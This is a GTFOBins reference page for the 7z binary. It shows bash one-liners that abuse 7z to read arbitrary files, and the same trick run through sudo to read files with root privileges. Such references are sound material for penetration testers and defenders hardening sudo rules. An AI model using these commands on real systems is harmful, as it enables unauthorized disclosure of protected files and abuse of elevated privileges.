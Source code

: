 ```yaml
---
title: "7z"
author: GTFObins
categories: Tips
series: GTFObins
tags: ["file read",sudo]
toc: false
---
```


# File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```bash
LFILE=file_to_read
7z a -ttar -an -so $LFILE | 7z e -ttar -si -so
```

# Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
LFILE=file_to_read
sudo 7z a -ttar -an -so $LFILE | 7z e -ttar -si -so
```
